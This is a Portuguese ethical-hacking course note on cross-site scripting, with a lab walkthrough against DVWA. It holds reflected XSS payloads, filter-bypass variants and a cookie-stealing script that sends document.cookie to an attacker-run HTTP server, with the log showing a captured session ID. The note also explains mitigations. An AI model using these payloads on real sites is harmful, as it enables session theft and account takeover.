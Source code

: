 # XSS (Cross-Site Scripting)

É uma vulnerabilidade em que **entrada não confiável** é **injetada** numa página e o navegador da vítima **executa JavaScript** sob o **mesmo domínio** do site legítimo. Isso pode permitir ações em nome do usuário, roubo de dados exibidos na página, phishing in-page e, em alguns casos, uso/roubo de sessão.

**Tipos principais:**

* **Reflected (não persistente):** o payload vem da requisição (URL, POST, cabeçalho) e é refletido na resposta.
* **Stored (persistente):** o payload é **armazenado** no servidor (ex.: comentários) e afeta quem visualizar.
* **DOM-Based:** a vulnerabilidade está no **cliente**; o JS manipula o DOM com dados não confiáveis (ex.: `location.search`) e cria HTML/script inseguro.

**Comparativo dos tipos de XSS**

| Aspecto                  | Reflected XSS                                        | Stored XSS                                                                 | DOM-Based XSS                                                                                        |
| ------------------------ | ---------------------------------------------------- | -------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------- |
| Definição curta          | Entrada maliciosa é **refletida** na resposta        | Entrada maliciosa é **salva** e servida depois                             | **JS do front** transforma dados não confiáveis em HTML/JS                                           |
| Persistência             | Não                                                  | **Sim** (atinge vários usuários)                                           | Depende do DOM; geralmente não persistente                                                           |
| Vetor típico             | Link malicioso / requisição forjada                  | Campo de cadastro/comentário/perfil                                        | Leitura de `location`, `hash`, `storage`, mensagens `postMessage`                                    |
| Onde falha               | Renderização no **servidor** sem escape por contexto | Armazenamento/saída no **servidor** sem escape por contexto                | **Código do cliente** (ex.: `innerHTML`, `document.write`)                                           |
| Precisa clicar em link?  | Geralmente **sim**                                   | Não necessariamente                                                        | Às vezes (se origem for URL/hash)                                                                    |
| Atinge todos visitantes? | Normalmente não                                      | **Sim**, quem abrir a página afetada                                       | Tipicamente só quem aciona o fluxo vulnerável                                                        |
| Sinks perigosos          | Saída em HTML/atributos/JS embutido                  | Idem                                                                       | `innerHTML`, `outerHTML`, `insertAdjacentHTML`, `eval`, `new Function`                               |
| Impacto típico           | Execução de ações, exfiltração de dados da página    | **Amplificado** (muitos usuários)                                          | Igual aos demais, mas sem passar pelo servidor                                                       |
| Deteção (alto nível)     | Ver se parâmetros aparecem sem escape na resposta    | Postar conteúdo com caracteres especiais e observar renderização           | Inspecionar JS/fluxo do DOM; forçar valores em URL/hash e ver mutações inseguras                     |
| Mitigações-chave         | Escape **por contexto** + validação + CSP            | Escape **por contexto** + validação na **entrada e saída** + moderação/CSP | Evitar sinks inseguros; usar `textContent`; templates com auto-escape; sanitizadores confiáveis; CSP |

> **Observações importantes**
>
> * **CSP** com **nonce/`strict-dynamic`** reduz muito o impacto/viabilidade.
> * Cookies de sessão: use **`HttpOnly`** (impede leitura via JS), **`Secure`** + **HTTPS/HSTS**, **`SameSite`**. HttpOnly **não impede** que XSS faça ações em seu nome, mas bloqueia leitura direta do cookie.
> * “Sanitização” deve ser **por contexto** (HTML, atributo, URL, JS, CSS). Não confie em uma única função “genérica”.

**Variantes e termos relacionados**

* **Blind XSS:** forma de Stored que dispara em consoles/admins (ex.: painel de suporte).
* **mXSS (Mutation XSS):** o navegador/sanitizador “muta” o HTML e reintroduz perigo.
* **Self-XSS:** engenharia social para a própria vítima colar código no console (não é falha do site).
* **UXSS:** exploração de bug no navegador/extensão, menos comum, alto impacto.

## XSS Relected 

Com o uso do DVWA do metasploit, exploraremos a vunerabidade em reflected XSS, começando pelo nível baixo de segurança.

### Nível baixo de segurança

A intenção da página é criar um texto de boa-vinda com o nome do usuário, como abaixo:

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_01.png)

![Resposta](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_02.png)

Contudo, se passarmos um JavaScript... (`<script>alert("XSS found")</script>`)

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_03.png)

Ele é executado.

![Resposta](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_04.png)

Desta forma, podemos observar que a página não filtra a injeção de JavaScripts

### Nível médio de segurança

Ao tentar passarmos o mesmo JavaScript... (`<script>alert("XSS found")</script>`)

![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_03.png)

Ele **não é executado**.

![Resposta](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_05.png)

A página está filtrando. Contudo se passarmos variações do comando como
* `<SCRIPT>alert("XSS found")</SCRIPT>` (em maiúculas), ou
  ![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_07.png)
* `<scr<script>ipt>alert("XSS found")</script>` (ao filtrar a palavra *<script>* do comando, o comando original *<script>alert("XSS found")</script>* é reestabelecido.
  ![Comando](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_08.png)

O JavaScript é executado

![Resposta](https://github.com/ops-shadow/Complete-Ethical-Hacking-Bootcamp/blob/5907fb7ed1333414369d0a182f45d6a0e5d7089c/7%20-%20websites/xss_04.png)

## Roubo de Cookie

Neste exercício, o objetivo é roubar o cookie de sessão do usuário.

**1.** Iniciar um servidor HTTP simples que serve os arquivos do diretório atual na porta 8000. Útil para testes rápidos (abrir no navegador http://<ip>:8000/ e ver/listar arquivos).
```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Ele inicia 
**2.** Injetar na página o comando:

`<script>document.write('<img src="http://192.168.1.10:8000/' + document.cookie + ' ">');</script>`

Esse snippet tenta exfiltrar cookies via uma requisição de imagem — um padrão clássico usado em XSS.

**Explicação do script**
- document.cookie → retorna, como string, todos os cookies acessíveis por JavaScript do site atual (ex.: nome1=valor1; nome2=valor2). Cookies com HttpOnly não aparecem aqui.
- document.write(...) → injeta no HTML da página uma tag <img> construída dinamicamente.
- <img src="http://192.168.1.10:8000/ + cookies + "> → o navegador tenta carregar essa imagem, fazendo um HTTP GET para 192.168.1.10:8000 com o valor dos cookies no caminho da URL (o espaço final vira %20).
- Mesmo que a imagem dê 404, o request sai do navegador; quem controla 192.168.1.10:8000 consegue ver/registrar os cookies nos logs do servidor.

**Perigo**

- Em um cenário de XSS (Reflected/Stored), o código roda no contexto do domínio da vítima. Se os cookies de sessão não tiverem HttpOnly, o invasor pode roubar a sessão colocando esses valores na URL e recebendo-os no servidor dele.

**Limitações e defesas**

- HttpOnly no cookie de sessão impede que document.cookie o leia (mitiga “cookie stealing”, embora XSS ainda permita ações em nome do usuário).
- CSP bem configurada (ex.: bloquear scripts inline e img-src para domínios não autorizados) barra a criação desse <img> externo.
- Escapar/sanitizar por contexto toda saída baseada em entrada do usuário evita a execução do script (previne XSS).
- HTTPS + Secure + HSTS, SameSite, escopo mínimo de Domain/Path e, se possível, prefixos __Host-/__Secure- reforçam a proteção de sessão.
- Evite document.write e “sinks” inseguros (innerHTML, etc.) com dados não confiáveis.

**3.** Resultado
```
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.1.10 - - [12/Sep/2025 22:49:41] code 404, message File not found
192.168.1.10 - - [12/Sep/2025 22:49:41] "GET /security=medium;%20PHPSESSID=ccfafaeac102b3811d58970bd22e889c HTTP/1.1" 404 -
```
É obtido o ID da sessão do usuário!

## XSS Stored

